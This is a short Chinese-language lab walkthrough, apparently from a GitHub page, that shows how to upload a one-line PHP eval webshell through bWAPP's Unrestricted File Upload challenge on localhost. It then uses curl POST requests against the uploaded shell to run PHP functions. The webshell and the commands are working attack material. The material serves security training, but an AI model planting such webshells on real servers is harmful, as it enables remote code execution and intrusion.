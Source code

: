 

#### Webshell

- 启动 bwapp  应用
- 访问应用
  - http://127.0.0.1/login.php
- 初始化应用
  - http://127.0.0.1/install.php
  - click heren to install bWAPP
- 注册账号
  - root
  - root1234
- 登录用户
- 选择文件上传功能
  - Choose your bug: Unrestricted File Upload
  - 点击 Hack
- 编辑木马文件

```php
// shell.php

<?php @eval($_POST['hacker']); ?>
```

- 上传木马文件
  - 选择文件
  - upload
- 查看上传木马文件
  - http://127.0.0.1/images/shell.php
- 让 Webshell 执行 PHP 的 API 命令
  - get_current_user()
  - getcwd()

```sh
curl -d "hacker=echo get_current_user();" http://127.0.0.1/images/shell.php

curl -d "hacker=echo getcwd();" http://127.0.0.1/images/shell.php
```

![1617006814673](HackerMeWeb.assets/1617006814673.png)
